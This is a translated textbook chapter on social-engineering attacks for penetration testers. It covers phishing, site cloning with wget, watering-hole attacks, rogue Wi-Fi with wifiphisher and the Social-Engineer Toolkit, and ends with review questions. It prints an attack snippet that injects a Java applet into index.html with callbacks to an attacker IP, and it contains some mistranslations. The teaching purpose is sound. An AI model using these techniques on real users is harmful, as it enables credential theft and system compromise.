这封邮件有很多可疑之处。第一点是邮件声称你中了大额奖金。只要提供个人信息，就能拿到钱。免费金钱的提议让我立即产生怀疑。要求我提供个人信息以赢取我从未参加的彩票，这也让人怀疑。毕竟，如果我被选中，他们本该已经拥有我的信息。另一个让我警惕的是建议我联系美国的律师。美国有律师，没有 barristers（英国称律师），在美国从事法律工作的公司自然知道这一点。

语法也是一个提示。如果你看到可疑的语法，应该对邮件保持警惕。仅仅要求提供联系方式属于低级别的钓鱼攻击，成功率似乎不高。但 419 诈骗仍然屡屡成功，并以各种形式持续存在。有一种理论认为，倾向于相信此类 poorly constructed（结构 poorly）诈骗的人会自行筛选。如果某人容易相信这种低劣诈骗，那么他也可能会把金钱交给攻击者。

- 更好的钓鱼邮件是那些被构造得看起来完全合法的，只要你不仔细看的话。这类攻击更有可能成功，而且并不特别难组织。你可以在 [Figure 10.4 中看到这类钓鱼邮件的示例。这是一封伪装成华盛顿互惠银行（Wells Fargo）警告的邮件。如果我与华盛顿互惠银行有业务往来，这封邮件我会非常仔细地查看。它包含一些令人信服的元素。图片正是我期望在华盛顿互惠银行邮件中看到的那种。措辞也相当可靠。我们在这条信息中至少勾选了一个框。首先，我们获得权威——它说是华盛顿互惠银行。其次，有互惠——我们会感到被提前警告我们的银行账户可能被 compromises。


**FIGURE 10.4** Wells Fargo 钓鱼邮件

仔细观察信息后，会发现它更加可疑。鼠标悬停在信中的链接上会显示一个与华盛顿互惠银行毫无关系的 URL。此外，发件人字段中的电子邮件地址是伪造的，甚至不像是一个真实的电子邮件地址。有趣的是，信中还有一个二级链接，只有在悬停时才能看到其 URL，这也与华盛顿互惠银行无关，并且与第一个 URL 明显不同。如果这些 URL 仍然能打开，它们很可能会指向要求验证信息的网站或安装恶意软件的系统——两者可能同时出现。为什么不同时窃取银行信息，同时安装远程访问程序呢？

钓鱼是一种有效的策略。正如你可能在“垃圾邮件”文件夹中看到的邮件数量所显示的，它很有利润。再次强调，如果你没有大量此类邮件，我可以保证——我的邮箱已经存在足够长时间，并且足够出名（并非因为我个人，而是因为邮箱本身的知名度），以至于我上个月就已经拥有足够多的邮件供我们两人参考。如果你针对某一特定公司的员工进行攻击，你已经超出了普通钓鱼，进入了 **spear phishing**（定向钓鱼），这意味着你不再使用广撒网的方式去尽可能多地覆盖目标，而是使用“矛头”精准击中特定目标。

钓鱼邮件可能包含附件。这些邮件可能以多种形式出现。我在过去见过的常见做法是发送伪装成发票的附件，受害者被引导打开发票以支付账单。Figure 10.5 显示了类似的情况，假装来自苹果。


**FIGURE 10.5** 带附件的钓鱼邮件

这些附件通常是 PDF 文档。在 Figure 10.5 的邮件中，附件很可能原本是 PDF，但服务器端的防恶意软件将其删除了。PDF 实现以及（到一定程度）格式本身都有漏洞历史。目标可能正在使用的阅读器很有可能被利用。与打开普通可执行文件相比，打开 PDF 更容易让人上当。用户对打开程序的风险很敏感，但可能更倾向于认为 PDF 无害，实际上 PDF 格式本身就能执行嵌入的可执行文件。

钓鱼攻击是渗透测试或红队行动的重要组成部分。使用像 `FiercePhish` 这样的工具来管理你的行动会很有帮助。`FiercePhish` 提供一个 Web 界面来管理所有的社交工程活动。通过 Web 界面，你可以管理目标列表以及所有想使用的模板。你可能会创建可在不同目标之间重复使用的模板。毕竟，一些最有效的社交工程攻击很可能是那些对受害者有益的攻击。想想那些向受害者提供某种东西的邮件——这可能会利用受害者的自然贪婪。你可以使用彩票中奖或某种退款来诱骗。

### 联系垃圾邮件

社交工程的前提是利用或颠覆信任。这也是为什么钓鱼攻击（如前文提到的华盛顿互惠银行信息）常常冒充可靠且熟悉的来源——受害者更可能信任来自已知来源的信息。联系垃圾邮件（contact spamming）基于同样的思想。这种攻击有几种不同的实现方式。如果电子邮件账户被 compromises，攻击者可以利用通讯录找出受害者认识的人。攻击者若把信息发送给这些熟人，信件看起来就来自受害者信任的对象，成功概率更高。如果发件人地址本身已经被受害者熟知，成功率会更高。

不幸的是，进行联系垃圾邮件并不一定需要账户被 compromises。攻击者还可以通过其他方式识别你认识的人。一旦这些联系人被确定，伪造看起来像来自你账户的邮件发送给他们就很容易。

### 交换（Quid Pro Quo）

*Quid pro quo* 是拉丁语，意为“something for something”。这意味着受害者在交换的同时被要求提供某物。你常常会看到此类攻击，例如受害者被承诺提供技术支持，以换取凭证。受害者可能收到一封邮件，声称其账户存在问题，并提供帮助以解决问题，但用户可能被要求提供已有的凭证来完成所谓的“修复”。

这种攻击也可能是基于电话的，不一定依赖电子邮件。攻击者可以在受害者办公桌前打电话，声称帮派（help desk）发现了需要解决的问题。为了“验证”用户身份，攻击者可能会要求提供凭证。也可能声称这是一个复杂的修复过程，如果提供凭证，所谓的“帮派”人员就能直接为受害者完成解决。

无论采用何种手段，攻击者通常最终会获取凭证，或至少获得系统或应用的短期访问权限。如果用户能够验证来电或信息真正来自信息技术或帮派人员，这种攻击可以被防止。员工应始终拨打帮派电话以确认问题并从公司内部、已获授权的帮派人员那里获得帮助。

- 另一种使用社交网络进行社会工程的方式是通过他人可能已经窃取的凭据来 compromise 一个账户。账户被 compromise 后，攻击者可以逐步接管该账户，修改密码和其他信息，同时保留联系人/好友列表。这最近发生在我在 LinkedIn 上的时候。我收到一条来自某人的推荐请求，我回复说我不认识他们。在几条来自（据称被 compromise 的）账户的不同消息中，出现了图 10.6 所示的消息。


**FIGURE 10.6** LinkedIn message

攻击者会利用被 compromise 账户的联系人来尝试获取某些东西。这种类型的社会工程有很多不同的实现方式。攻击者可以使用新获取的“好友”来尝试出售商品或服务，例如。他们还可以尝试获取凭据。一旦社交工程攻击的不信任屏障被移除，几乎所有的社交工程攻击的结果都有可能出现，因为这些消息或请求是来自受信任的人。

## 网站攻击

即使你使用钓鱼攻击，也可能需要第二个元素。你可以在钓鱼攻击中加入恶意软件，这可以让你获得目标系统的访问权限。这可能比你想要的更复杂，因为它依赖于用户打开附件，或者附件利用系统中的漏洞。相比于让用户打开附件，让用户点击链接要容易得多。尤其是当电子邮件看起来合法，链接也看起来合法时。这意味着，你需要有一个网站供用户连接。如果你以钓鱼为入口，可能会先使用站点克隆，即创建一个看起来像合法站点的复制品，这样当用户连接时不会产生怀疑。

### 克隆站点

克隆是一个非常容易实现的操作。事实上，你甚至不需要克隆整个站点。你只需要克隆使页面渲染成为可能的 HTML 代码。将任何媒体文件保持在原始位置即可，因为如果它们发生变化，你可以利用这些更新。这样会让克隆站点看起来更可信。如果有人仔细观察，就会看到请求实际上是发送到合法站点而不是你的恶意站点。唯一从你的恶意站点发出的文件是控制页面渲染的 HTML。这并不意味着你不能抓取文件并本地托管。使用像 `WinHTTrack` 这样的工具，这是可配置的选项，如图 10.7 所示。


**FIGURE 10.7** WinHTTrack options


这些选项当然是可选的。默认情况下，WinHTTrack 不会抓取媒体文件，只会抓取 HTML。它会克隆整个站点，这意味着它会遍历所有链接。WinHTTrack 使用项目来克隆站点，因此这是一个多步骤的过程。在图 10.8 中，你可以看到在输入 URL 的那一步。你也可以输入多个 URL 以一次性下载多个站点。你需要将操作改为“Download All Sites In Pages”。你也可以使用 WinHTTrack 来测试站点而非下载它们，这意味着你可以检查书签列表以确认它们是否仍然有效。

如果你更喜欢命令行工具，也有几个可以使用的选择。其中一个是 `wget`，它用于发起网络请求并获取文件。你可以在命令行中使用 `wget` 下载文件。在 Linux 系统上，你可以获取源代码 tarball、包文件或任何不需要渲染的文件。你可以使用 `wget` 进行递归的 GET 请求，这正是镜像站点所需要的。这意味着 `wget` 会下载站点顶部的 HTML 页面并保存它，然后查找页面中的所有锚标签并逐个跟踪它们以获取这些页面或文件。在下面的代码片段中，你可以看到使用 `‑m` 参数运行 `wget` 的示例，该参数指示 `wget` 对站点进行镜像，即抓取整个站点。


**FIGURE 10.8** Site cloning with WinHTTrack

### 使用 wget 镜像网站

```
root@quiche:~# wget -m https://www.wiley.com
 --2023-01-23 07:05:43--  https://www.wiley.com/
 Resolving www.wiley.com (www.wiley.com)… 143.204.29.19, 143.204.29.108, 143.204.29.24, …
 Connecting to www.wiley.com (www.wiley.com)|143.204.29.19|:443… connected.
 HTTP request sent, awaiting response… 301 Moved Permanently
 Location: /en-us [following]
 --2023-01-23 07:05:43--  https://www.wiley.com/en-us
 Reusing existing connection to www.wiley.com:443.
 HTTP request sent, awaiting response… 200 OK
 Length: unspecified [text/html]
 Saving to: 'www.wiley.com/index.html'
 
 www.wiley.com/index     [ <=>                ] 85.83K --.-KB/s in 0.08s
 
 Last-modified header missing -- time-stamps turned off.
 2023-01-23 07:05:44 (1.08 MB/s) - 'www.wiley.com/index.html' saved [87888]
 
 Loading robots.txt; please ignore errors.
 --2023-01-23 07:05:44--  https://www.wiley.com/robots.txt
 Reusing existing connection to www.wiley.com:443.
 HTTP request sent, awaiting response… 200 OK
 Length: 817 [text/plain]
 Saving to: 'www.wiley.com/robots.txt'
 
 www.wiley.com/robot 100%[===================>] 817 --.-KB/s in 0s
 
```

如果你想让网站在离线状态下可用，可以使用命令行开关让链接相对。为了我们的目的，我们只需要镜像站点，保持原样，通过我们自己的 web 服务器提供访问。另一个与 `wget` 类似的命令行程序是 `cURL`。不幸的是，`cURL` 没有内置功能来下载完整的网站，尽管它功能强大。你可以编写一个短脚本来拉取站点，网上也有供使用 `cURL` 而不是 `wget` 的脚本。

获取站点页面后，你需要对源代码进行相应的调整。这包括插入恶意代码以便下载，并在站点中的某个页面中加入对该代码的引用。获取站点后，你可以将某个页面的 URL 发送给目标，可能在电子邮件中。在社交工程攻击中，有时会出现多层攻击。

### 伪装攻击

伪装网站是指用户可能认为是合法的，但实际上具有恶意目的的网站。这可能是一个看起来与合法站点完全相同的站点，使用前面提到的站点克隆技术，但其完全限定域名（URL）与通常的 URL 不同。攻击者可以注册常见拼写错误的域名并等待人们访问。这种手法称为 *typosquatting*（拼写错误劫持）。例如，你可以注册 `gogle.com` 并克隆 `google.com`，在托管该站点的服务器上提供页面。你也可以称之为 *URL 劫持*。

*Rogue* 不一定意味着你创建了一个假站点，但它可能表示你正在使用合法平台在其不知情的情况下发起攻击。水坑攻击是一种社交工程攻击，利用人们经常访问的网站进行攻击。在野外，水坑是动物经常聚集的地方，甚至可能逗留的地方。因为水是生命所必需，且并非所有动物都能从食物中摄取到足够的水分，水坑是等待动物光顾的理想地点。这种攻击方式与此类似。

在水坑攻击中，你会获得一个被大量访问的网站并向其植入恶意软件。这并不意味着该攻击易于执行，但通过使用它，你有潜力快速获取大量系统。与仅仅入侵单个系统不同，如果你入侵一个被目标人群频繁访问的网站，就能通过入侵单个系统获取许多系统的访问权限。一旦克服了入侵网站的难关——例如，如果你入侵 `espn.com`，你会看到大量男性经常前往该站点——攻击的实施就变得容易了。下面的代码片段展示了在 `index.html` 页面底部添加的几行内容。

### 带有 Applet 引用的攻击 HTML

```
 </script>
 
   <applet code="Java.class" width="1" height="1" archive="hkFKIKkhSvSHss.jar"><param name="name"><param name="1" value="http://192.168.86.57:80/krmnAir"><param name="2" value="ZGF0YQ=="><param name="3" value="http://192.168.86.57:80/qpaacQk"><param name="4" value="http://192.168.86.57:80/FMLhoBQCuNH">
 
 
```

这需要你拥有一个可以使用的 Applet，它可以是找到的也可以是自行创建的。正如许多其他事物一样，Metasploit 可以用于此类攻击载荷。该 HTML 片段指示浏览器加载 Java 类，该类位于名为 `hkFKIKkhSvSHss.jar` 的 JAR 文件中。这是一个随机生成的文件名。该攻击还包含一个回连，指向在攻击中加载的 IP 地址。

水坑攻击并非唯一的网络基础攻击，但它们具有针对性的优势，通常在针对组织时更为有用。你可以在内部服务器上植入攻击，因为公司员工经常访问这些网站，从而可能在被 compromized 主机上获取大量桌面系统。

### 无线社交工程

Wi‑Fi 网络已无处不在，且许多设备根本不支持有线连接，这使得人们普遍期望能够使用 Wi‑Fi 网络。你可以利用这一点。几乎任何地方都能找到大量 Wi‑Fi 网络列表。仅在我的客厅里，一个小社区就有将近二十个可用的 Wi‑Fi 网络。你可以在 Figure 10.9 中看到该列表。网络命名没有限制，也没有中央登记机构。即使在同一物理空间内，也可以有重名的网络。客户端决定实际连接哪个网络。

由于缺乏明确的网络选择方式，你可以利用这一点：即使你查看基础服务集标识符（BSSID），它也只是一个 MAC 地址，无法提供任何有意义的信息。你可以轻松创建一个恶意 Wi‑Fi 网络，这为获取用户名和密码提供了许多有趣的可能性。


**FIGURE 10.9** List of Wi‑Fi networks

无线网络最初被认为不如有线网络，因为很容易从空气中捕获信号。这确实是事实。我们无法在信号传输后限制谁能接收这些无线信号。为了防止信号被捕获，已尝试多次对传输进行加密。第一种是有线等效隐私（WEP），但它存在多个缺陷，导致 WEP 传输可以被轻易解密。随后出现了 Wi‑Fi Protected Access（WPA），旨在纠正 WEP 的一些问题。

WPA 并未完全成功，随后出现了 WPA2，最终被 WPA3 取代。WEP 使用预共享密钥（PSK）进行用户认证。WPA 引入了企业认证，这意味着 WPA、WPA2 和 WPA3 都可以在允许设备连接网络前要求用户名和密码进行认证。这并非唯一的认证方式，但它是其中一种。通常，公司无线网络中使用的用户名和密码与用于认证公司服务器（如 Active Directory 服务器）的凭据相同，因为这些服务器负责企业整体的认证。

在某些情况下，用户仅连接 Wi‑Fi 网络，系统会弹出所谓的 *captive portal*，即功能受限的网页，通常包含用于输入认证凭据的表单。你会在酒店和有时在机场看到这类页面。在酒店，你可能需要使用会员凭据登录，或提供姓氏和房间号以证明你是真实的酒店客人。这里也是获取用户凭据的好地方。

无论哪种情况，用户都需要进行认证，你可以通过靠近建筑物获取网络信号并尝试连接，从而进行侦察。你还可以配置抓取用户密码的方式。此设置需要一定技巧和努力。Kali Linux 具备所有所需工具，包括 `hostapd` 和 `iptables`。`hostapd` 将无线接口转换为接入点，而 `iptables` 用于将无线接口的流量路由通过另一接口到 Internet。随后可以使用其他程序捕获流量以获取认证凭据。

另一种方法是使用 `wifiphisher`。该程序会自动处理很多工作，包括创建能够在目标系统上安装软件的情景。其在线文档已过时。与其通过命令行传递所有参数不同，直接运行程序并在交互式界面中做出选择同样方便。启动后，你会看到它会设置一对无线接口，然后启动 DHCP 服务器和 `iptables`，这两者都是让用户看似合法连接到接入点所必需的。

### 启动 wifiphisher

```
 kilroy@portnoy:~$ sudo wifiphisher
 [*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2023-01-25 01:21
 [+] Timezone detected. Setting channel range to 1-13
 [+] Selecting wfphshr-wlan0 interface for the deauthentication attack
 [+] Selecting wlan0 interface for creating the rogue Access Point
 [+] Changing wlan0 MAC addr (BSSID) to 00:00:00:9e:e7:b5
 [+] Sending SIGKILL to wpa_supplicant
 [+] Changing wlan0 MAC addr (BSSID) to 00:00:00:3e:48:01
 [+] Changing wlan1 MAC addr to 00:00:00:cc:3f:74
 [*] Cleared leases, started DHCP, set up iptables
          
```

一旦你启动 `wifiphisher`，它会列出所有在系统范围内的 SSID。这里是你选择要伪装的 SSID 以获取凭据的地方。你可以在 Figure 10.10 中看到此选择。正如屏幕上显示的，你需要向下滚动选择要伪装的 SSID，然后按回车确认。你可能已经注意到在前面的输出中，有一个无线接口将被用于 deauthentication 攻击。这意味着当 `wifiphisher` 运行时，它会向看起来已连接到真实接入点的系统发送 deauthentication 帧。这将迫使那些客户端重新认证，理想情况下它们会与你建立连接。


**FIGURE 10.10** `wifiphisher` SSID 选择

在你选择要伪装的 SSID 后，`wifiphisher` 会询问你要使用哪种攻击类型。在 Figure 10.11 中，你可以看到用户将被展示的场景选项。


**FIGURE 10.11** `wifiphisher` 攻击模板选择

所选模板将决定你从目标获得什么。OAuth 页面将让你收集凭据，而其他模板（包括浏览器插件）则会让你在目标计算机上安装一些代码。这可能是远程访问软件，例如。与许多其他事物一样，这取决于你在这类攻击中想要实现什么。

在无线领域，要使其有效工作需要许多环节配合，这意味着整个设置会以一种在用户感知上不易引起怀疑的方式运行，从而可能阻止用户让安全团队介入识别你的 rogue access point。使用自动化工具进行无线社交工程攻击通常更为合适。这并不意味着你必须始终使用手动方法进行其他社交工程攻击。还有其他自动化社交工程的方法。

## 自动化社交工程

由于钓鱼是野外最常见且最易实施的攻击之一，我们可以从自动化钓鱼攻击开始。我们将使用 Metasploit 来协助，更具体地说，我们将使用一个在 Metasploit 之上作为叠加的程序 —  — 社会工程工具包 (SET)。这是一个基于菜单的程序，利用 Metasploit 的模块和功能，但会自动整合它们，帮助你完成社会工程攻击所需的任务。下面的代码片段展示了 SET 的初始菜单。该程序功能强大，但我们这里只做简要浏览，而不会深入探讨全部功能。

### Social‑Engineer Toolkit 起始菜单

```
   The Social-Engineer Toolkit is a product of TrustedSec.
 
           Visit: https://www.trustedsec.com
 
   It's easy to update using the PenTesters Framework! (PTF)
 Visit https://github.com/trustedsec/ptf to update all your tools!
 
 
  Select from the menu:
 
    1) Social-Engineering Attacks
    2) Penetration Testing (Fast-Track)
    3) Third Party Modules
    4) Update the Social-Engineer Toolkit
    5) Update SET configuration
    6) Help, Credits, and About
 
   99) Exit the Social-Engineer Toolkit
 
 set>
 
 
```

选择 **Social‑Engineering Attacks** 后会打开另一个菜单，这里需要输入菜单项的编号。整个程序多年来不断增长其功能。这一点在 **Social‑Engineering Attacks** 菜单的向量数量上表现明显，你可以在下面的列表中看到。你可能会注意到有两种钓鱼攻击向量：一种是大规模发送邮件，另一种是定向 spear phishing。区别在于预期的收件人数量。

### Social‑Engineer Toolkit 社交工程攻击

```
 Select from the menu:
 
    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vector
    7) Wireless Access Point Attack Vector
    8) QRCode Generator Attack Vector
    9) Powershell Attack Vectors
   10) Third Party Modules
 
   99) Return back to the main menu.
 
 
```

无论你选择哪一项，都可以向单个地址或多个地址发送。下面的代码片段展示了不同选项之间的差异。

### Spear‑phishing 向量

```
    1) Perform a Mass Email Attack
    2) Create a FileFormat Payload
    3) Create a Social-Engineering Template
```

### Mass Mailer 向量

```
     1.  Email Attack Single Email Address
     2.  Email Attack Mass Mailer
     
 
```


我们将重点观察`Mass Email Attack`向量，因为其基本步骤在不同的邮件攻击中是相同的。`Mass Email Attack`允许我们使用文件格式漏洞。可用的 payload 是 Metasploit 中已有的文件格式 exploit，这些文件格式常被利用且成功率有希望。

### 文件格式漏洞的 Payload

```
            ********** PAYLOADS **********

     1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)
     2) SET Custom Written Document UNC LM SMB Capture Attack
     3) MS15-100 Microsoft Windows Media Center MCL Vulnerability
     4) MS14-017 Microsoft Word RTF Object Confusion (2014-04-01)
     5) Microsoft Windows CreateSizedDIBSECTION Stack Buffer Overflow
     6) Microsoft Word RTF pFragments Stack Buffer Overflow (MS10-087)
     7) Adobe Flash Player "Button" Remote Code Execution
     8) Adobe CoolType SING Table "uniqueName" Overflow
     9) Adobe Flash Player "newfunction" Invalid Pointer Use
    10) Adobe Collab.collectEmailInfo Buffer Overflow
    11) Adobe Collab.getIcon Buffer Overflow
    12) Adobe JBIG2Decode Memory Corruption Exploit
    13) Adobe PDF Embedded EXE Social Engineering
    14) Adobe util.printf() Buffer Overflow
    15) Custom EXE to VBA (sent via RAR) (RAR required)
    16) Adobe U3D CLODProgressiveMeshDeclaration Array Overrun
    17) Adobe PDF Embedded EXE Social Engineering (NOJS)
    18) Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow
    19) Apple QuickTime PICT PnSize Buffer Overflow
    20) Nuance PDF Reader v6.0 Launch Stack Buffer Overflow
    21) Adobe Reader u3D Memory Corruption Vulnerability
    22) MSCOMCTL ActiveX Buffer Overflow (ms12-027)


```

文件格式告诉我们将如何利用系统。这将让我们在远程系统上运行任意代码；我们只需要确定那段任意代码是什么。我们的 payload 将基于我们选择的文件格式漏洞类型。如果选择列表中的第一种文件格式，则会得到一系列 payload，默认是 Meterpreter 内存注入。该 payload 会将 Meterpreter shell 发送回我们这边，前提是我们已设置好 handler。

钓鱼在社交工程中是可靠的攻击向量，但它并不是唯一的选择。你可能甚至不想获得目标系统的 shell 访问权限。幸运的是，SET 拥有许多其他功能，正如初始菜单所示。你甚至可以使用 SET 自动化无线攻击。虽然还有其他许多社交工程攻击方式，但这是一个强大的工具，利用 Metasploit 框架的 payload 与其他功能，极大地简化了你的工作。

## 总结

- [社交工程](https://example.org)是一种自人类拥有欲望和需求以来就存在的技能。一旦你了解社交工程的原理，就能开始识别自己正在被操纵的地方。社交工程的原理包括互惠、承诺、社会证明、权威、好感和稀缺。这些关键原则可以用来诱导人们做出他们本不愿意做的行为。这可能包括让你获得系统或信息的访问权限，也可能是让你泄露用于进行其他攻击的凭证。

当你准备进行社交工程攻击时，伪造（pretexting）至关重要。伪造是指你将要讲述的故事。你可以在电子邮件中，甚至在诈骗电话中看到伪造的例子。419 诈骗很常见，是伪造的一个好例子。你被讲述一个故事，而这个故事很可能让你相信，主要是因为有数百万美元的承诺。谁不想拥有足够的钱，辞掉工作，在塔希提海滩上生活呢？伪造就是你向目标讲述的故事。一个好的伪造故事能够覆盖所有角度，让你在目标提问或提出异议时不必手足无措、答不上来。你已经全部掌握，这可能需要进行研究，尤其是当你针对组织内的员工时，他们可能接受过防范社交工程攻击的培训。

社交工程可以采取多种形式。其中四种是语音钓鱼（vishing）、网络钓鱼（phishing）、短信钓鱼（smishing）和冒充（impersonation）。语音钓鱼是通过电话获取信息；网络钓鱼是通过欺诈手段获取信息，通常被认为包括电子邮件作为传递方式；短信钓鱼是使用短信；冒充是假装成其他人。虽然某些社交工程形式会将冒充作为组成部分，但当我们谈论冒充作为社交工程向量时，指的是假装成他人以获取建筑或设施的物理访问。

获得对设施的物理访问可能是渗透测试或红队行动中的重要元素。你可以冒充他人，但多种防护措施可能使此举变得困难。许多现代建筑通过要求刷卡证明你是你所说的，并且拥有合法的进入权限来进行保护。这可以通过跟随（tailgating）来规避，即在他人刷卡开门后跟随其通过门。人阱（man trap）可以防止这种入口方式，旋转门只在刷卡后转动四分之一圈。生物特征认证也可以用于验证身份。一旦身份得到证明，访问权限即可按定义授予。

网站可以作为社交工程攻击的向量。这里冒充可以发挥作用。只需将现有网站的所有资源复制到另一个位置，就可以轻松搭建一个网站的克隆。随后，你可以添加额外组件，包括“恶意”软件，这可能会为你提供对目标系统的远程访问。你可以使用拼写错误攻击（typosquatting），使用一个与真实域名相似且包含常见拼写错误的域名。你也可以使用水坑攻击（watering hole attack），即 compromise 一个常被访问的网站，当用户访问时可能会被感染。

无线网络接入在当今非常普遍，尤其在许多设备无法使用有线网络的情况下。这是另一个可以进行社交工程攻击的领域。你可以设置一个引人注目的名称的 rogue（野生）接入点，诱使人们连接并泄露信息。你也可以使用现有的 SSID 并干扰真实接入点的信号。这会迫使合法用户尝试对你的接入点进行认证，从而让你能够收集凭证或其他信息，因为一旦他们连接，所有流量都会经过你的系统。

虽然这些攻击可以手动完成，但自动化许多操作会更加容易。下面是一些有用的工具：

- `wifiphisher`：可以自动化创建野生接入点的过程。

- SET（Social Engineering Toolkit）：可以自动化社交工程攻击，利用 Metasploit 及其 payloads 和 modules 来支持这些攻击。

### Review Questions

1. 你接到一通电话，对方声称自己是国税局（IRS）的代表，并威胁如果你不立即提供支付方式就会立刻派警察来逮捕你。对方使用的是哪种战术？

   1. Pretexting

   2. Biometrics

   3. Smishing

   4. Rogue access

2. 你正在参与红队（red team）任务，团队负责人要求你使用`baiting`（诱饵）来获取入口。你被要求做什么？

   1. 打电话

   2. 克隆网站

   3. 丢置 USB 随身碟

   4. 伪造 RFID ID

3. 当你看到在安全会议的供应商摊位前排起长队，等待领取免费 USB 随身碟和光盘时，使用的是哪种社交工程原则？

   1. 互惠（Reciprocity）

   2. 社会证明（Social proof）

   3. 权威（Authority）

   4. 稀缺（Scarcity）

4. 针对`tailgating`（尾随）这一攻击，以下哪种措施是可行的防护手段？

   1. 生物特征认证（Biometrics）

   2. 刷卡访问（Badge access）

   3. 电话验证（Phone verification）

   4. 人阱（Man traps）

5. 使用无线社交工程的主要目的是什么？

   1. 发送钓鱼消息

   2. 收集凭证

   3. 获取电子邮件地址

   4. 进行电话诈骗

6. 哪种社交工程原则能够让一次假冒客服电话（help desk）的电话更具说服力？

   1. 社会证明（Social proof）

   2. 模仿（Imitation）

   3. 稀缺（Scarcity）

   4. 权威（Authority）

7. 使用自动化工具进行社交工程攻击的原因是什么？

   1. 更好地控制结果

   2. 降低复杂度

   3. 实现社会证明

   4. 展示权威

8. 如果你想获取进入建筑物的访问权限，应该使用哪种社交工程向量？

   1. 冒充（Impersonation）

   2. 稀缺（Scarcity）

   3. 语音钓鱼（Vishing）

   4. 短信钓鱼（Smishing）

9. 下列哪项是`pretexting`（伪造）的例子？

   1. 要求输入凭证的网页

   2. 克隆的徽章

   3. 前同事发来的电子邮件

   4. 野生无线接入点

10. 哪个工具可以用于克隆网站？

   1. `httclone`

   2. `curl-get`

   3. `wget`

   4. `wclone`

11. 为了防止`baiting`（诱饵）攻击成功，应该采取哪项措施？

   1. 禁用注册表克隆。

   2. 禁用 autorun。

   3. 使用环氧封堵外部端口。

   4. 不要浏览 Internet。

12. 当你考虑实施生物特征认证时，更可能关注哪项统计指标？

   1. 假正率（False positive rate）

   2. 假负率（False negative rate）

   3. 假失败率（False failure rate）

   4. 假接受率（False acceptance rate）

13. 哪种生物特征最不容易获得高真接受率（true accept rate）并同时将假拒率（false reject rate）降到最低？

   1. 声音指纹（Voiceprint）

   2. 彩色扫描（Iris scanning）

   3. 视网膜扫描（Retinal scanning）

   4. 指纹扫描（Fingerprint scanning）

14. `proximity` 卡（proximity card）最容易受到哪种攻击？

   1. 尾随（Tailgating）

   2. 钓鱼（Phishing）

   3. 凭证窃取（Credential theft）

   4. 克隆（Cloning）

15. 哪种生物特征扫描的是眼球周围（虹膜）的图案？

   1. 视网膜扫描（Retinal scanning）

   2. 指纹扫描（Fingerprint scanning）

   3. 彩色扫描（Iris scanning）

   4. 乌维扫描（Uvea scanning）

16. 高假负率（false failure rate）会导致什么结果？

   1. 人们需要联系安保人员

   2. 未经授权的人员被允许进入

   3. 强制使用人阱（man trap）

   4. 减少生物特征认证的使用

17. 你收到了一条来自未知号码的短信，该号码只有五位数字。它没有任何文字，只有一个链接。这可能是一个什么例子？

   1. `Vishing`

   2. `Smishing`

   3. `Phishing`

   4. `Impersonation`

18. 电话通话相对于网络钓鱼邮件的优势是什么？

   1. 你可以通过`pretexting`进行更详细的说明。

   2. `Phishing`攻击不可靠。

   3. 并非所有人都有电子邮件，但所有人都有手机。

   4. `Pretexting`仅在电话上有效。

19. 当你在公共场所连接到无线接入点时，你可能会看到的网页是什么？

   1. `Credential harvester`

   2. `Captive portal`

   3. `Wi‑Fi portal`

   4. `Authentication point`

20. 哪种工具可以用于生成电子邮件攻击以及无线攻击？

   1. `Meterpreter`

   2. `wifiphisher`

   3. `SE Toolkit`

   4. `Social Automator`

21. 如果你在办公室里随意丢弃带有恶意软件的 USB 盾，并期待用户将它们插入系统，你使用的是哪种社交工程技术？

   1. `Pretexting`

   2. `Identity theft`

   3. `Contact spamming`

   4. `Baiting`

22. 你的同事突然给你打电话，说他们收到了来自你的奇怪邮件，在询问你在做什么。如果你没有发送这条信息，你应该怀疑什么？

   1. `Quid pro quo`

   2. `Cloning`

   3. `Contact spamming`

   4. `Man traps`

23. 哪些以下信息对攻击者来说不具备窃取身份的兴趣？

   1. `Birthplace`

   2. `First book you ever read`

   3. `Mother's maiden name`

   4. `Social Security number`

24. 如果攻击者使用“建议交换”（quid pro quo）作为手段让你提供信息，他们最有可能冒充谁？

   1. `Your car dealer`

   2. `Help‑desk staff`

   3. `Your mother`

   4. `Your dog`

25. 哪些以下做法不适合保护身份盗用？

   1. `Shredding bank records`

   2. `Using long and strong passwords`

   3. `Encrypting your file system`

   4. `Using a safe to store sensitive documents`

# Chapter 11

Wireless Security

曾经，你需要实际物理进入设施才能接入公司网络。这已不再是事实。如今，你只需具备物理 proximity 即可。无线网络无处不在，尤其是那些无法使用传统有线连接的设备日益增多。无线网络的问题在于它们使用无线电波作为传输介质。信号强度远不如 AM 或 FM 广播信号强。原理相同：发射器通过空气发送信号，只要接收器在范围内，就能接收到信号。

由于它们仅是无线电信号，只要在发射器的覆盖范围内，就可以被拦截。你也可以发送自己的信号。传统上称为无线保真（Wi‑Fi）的技术是一组按照 802.11 标准分类的规范，由电气和电子工程师学会（IEEE）管理。802.11 并非唯一的无线规范，蓝牙（Bluetooth）也是利用无线信号进行传输的通信协议。这两者都很常见，且容易配置不当。

即便没有配置错误，协议本身也存在足够的漏洞，可能导致被攻击。这些通信方式已成为业务运营的关键，但也暴露在风险之中。只要利用其中至少一种，且具备物理 proximity，就有可能进入系统和网络。

## Wi‑Fi

Wi‑Fi 涵盖所有属于 IEEE 802.11 标准的协议。Wi‑Fi 是 Wi‑Fi 联盟的商标，用于通过无线连接实现设备认证的设备。无论你称之为 Wi‑Fi 还是 802.11，都是指通过无线方式提供网络连接。这看起来很直接，而且如果你在使用它，通常也是如此。但 Wi‑Fi 自推出以来经历了多个版本，部分版本对 Wi‑Fi 的工作方式进行了重大改变。

首先，802.11 是定义物理层和数据链路层的规范集合。物理层指定了传输数据的调制方式以及使用的频率范围。最初的 802.11 版本在 2.4 GHz 频段进行传输，数据速率在 1 Mbps 到 2 Mbps 之间。该频段同样被其他技术（如微波炉和部分无绳电话）占用，属于工业、科学和医疗（ISM）频段，导致频谱比较拥挤，可能产生干扰。


